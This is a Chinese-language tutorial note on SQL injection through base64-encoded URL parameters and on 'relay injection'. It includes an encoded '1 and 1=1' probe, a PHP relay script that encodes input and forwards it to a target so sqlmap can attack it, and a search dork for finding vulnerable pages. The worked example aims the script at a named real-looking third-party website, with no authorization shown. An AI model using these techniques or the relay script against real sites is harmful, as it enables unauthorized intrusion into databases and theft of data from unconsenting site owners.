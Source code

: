 ![](https://gitee.com/YatJay/image/raw/master/img/202202130952426.png)

# 涉及知识

## 加解密注入

### 定义

提交的参数采用了base64等加密方式将数据进行加密，再通过参数传递给服务器

### 举例

对于  www.xxx.com/index.php?id=MQ==

- 加密部分：MQ==

- 解密结果：id=MQ==相当于id=1

对于   base64加密结果：MSBhbmQgMT0x

则提交语句为：www.xxx.com/index.php?id=MSBhbmQgMT0x

### 附：中转注入

比如受害者网站URL注入点是经过编码的，不能直接结合sqlmap进行漏洞利用，所以本地搭建一个网站，写一个php脚本编码文件，就可以结合sqlmap工具进行测试。因为，注入点经过复杂编码之后，就不能直接结合sqlmap进行漏洞攻击了。或者sqlmap自己编写tamper脚本进行攻击

以SQL加解密注入为例，如果我们所使用的工具不提供加密模块(burp和sqlmap都是提供加密模块的)，就需要自己编写脚本实现提交参数的加密工作。脚本的目的是当提交明文数据时先把明文发送到中转文件进行加密操作，然后再发送请求

#### 中转注入示例代码

```php
<?php
$url='http://xxxx/job_bystjb/yjs_byszjs.asp?id=';  //声明url
$payload=base64_encode($_GET['x']); //对GET方法提交的数据x进行加密
echo $payload;  //输出加密后的待提交参数
$urls=$url.$payload;  //连接两个字符串
file_get_contents($urls);//file_get_contents()将整个文件读入一个字符串，此处即意思是访问$urls，获取其中的内容
echo $urls;
?>
```

#### 示例

搜索引擎搜索：inurl:id=MQ==

地址：http://www.techen.cn/about_us.php?ID=MQ==

以下文件名：www/test.php

```php
<?php
$url='http://www.techen.cn/about_us.php?ID=';
$payload=base64_encode($_GET['x']);
echo $payload;
$urls=$url.$payload;
file_get_contents($urls);//请求拼接后的地址
echo $urls;
?>
```

